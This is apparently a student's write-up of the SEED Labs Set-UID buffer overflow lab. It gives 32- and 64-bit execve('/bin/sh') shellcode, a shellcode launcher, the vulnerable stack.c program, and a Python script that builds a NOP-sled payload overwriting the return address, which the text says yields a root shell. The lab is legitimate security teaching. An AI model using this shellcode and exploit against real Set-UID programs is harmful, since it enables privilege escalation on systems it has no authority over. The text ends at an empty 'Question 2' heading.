

# Seedlab Week #5 (Buffer Overflow Attack Lab, Set-UID Version)


# Question 1

### Initial setup

Before starting the lab we disabled all countermeasures on Ubuntu:

* `sudo sysctl -w kernel.randomize_va_space=0` to disable address space randomization (otherwise, we would need to guess the exact addresses).
* `sudo ln -sf /bin/zsh /bin/sh` as in previous labs, we needed to run this to enable programs executed in a Set-UID process. 

### Task 1: Getting Familiar with Shellcode

#### Step 1 

We learned from this step that *shellcode* is a piece of assembly code that launches a shell. (It cannot be used as a compiled program from C, it must be written in assembly.)

#### Step 2: 32-bit Shellcode

Here is an example of 32-bit shellcode that invokes execve("/bin/sh"). Basically, it will construct all three arguments: `"/bin//sh"`, `argv` with first element `"/bin//sh"` and `0` as 3rd element.

```asm
; Store the command on stack
xor eax, eax
push eax
push "//sh"     ; need 4 chars to set 32-bit, and // is same as /
push "/bin"
mov ebx, esp    ; ebx --> "/bin//sh": execve()’s 1st argument

; Construct the argument array argv[]
push eax        ; argv[1] = 0
push ebx        ; argv[0] --> "/bin//sh"
mov ecx, esp    ; ecx --> argv[]: execve()’s 2nd argument

; For environment variable
xor edx, edx    ; edx = 0: execve()’s 3rd argument

; Invoke execve()
xor eax, eax    
mov al, 0x0b    ; execve()’s system call number
int 0x80
```

#### Step 3: 64-Bit Shellcode

Same code as the previous, but in 64-bit.

```asm
xor rdx, rdx        ; rdx = 0: execve()’s 3rd argument
push rdx
mov rax, ’/bin//sh’ ; the command we want to run
push rax            
mov rdi, rsp        ; rdi --> "/bin//sh": execve()’s 1st argument
push rdx            ; argv[1] = 0
push rdi            ; argv[0] --> "/bin//sh"
mov rsi, rsp        ; rsi --> argv[]: execve()’s 2nd argument
xor rax, rax
mov al, 0x3b        ; execve()’s system call number
syscall
```

#### Step 4: Invoking the Shellcode

In this task, we were provided with the code call `shellcode.c`, that was generated from assembly code. 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;

int main(int argc, char **argv)
{
    char code[500];
    strcpy(code, shellcode);    // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                     // Invoke the shellcode from the stack
    return 1;
}
```

After compilation and running this, we can observe that it launches a shell.

<p align="center" justify="center">
  
</p>

In the experiment, if we set the program as SetUID, it will open a shell as `root`.

<p align="center" justify="center">
  
</p>

### Task 2 Understanding the Vulnerable Program

We were provided with code `stack.c`, that has a buffer overflow vulnerability, when we pass 517 bytes from `badfile` to buffer in `bug()` with size `BUFSIZE`. 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

To compile the program, we used the provided `Makefile` that use flags `-fno-stack-protector` and `-z execstack` to disable stack smashing detection and making the stack executable during compilation and setting the program to `Set-UID`, so executable will be owned by `admin`.
As per the instructions in Moodle, we set L1 to 108. 

<p align="center" justify="center">
  
</p>

### Task 3 Launching Attack on 32-bit Program

<p align="center" justify="center">
  
</p>

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 10               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcac4             # Change this number 
offset = 120            # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

<p align="center" justify="center">
  
</p>

# Question 2


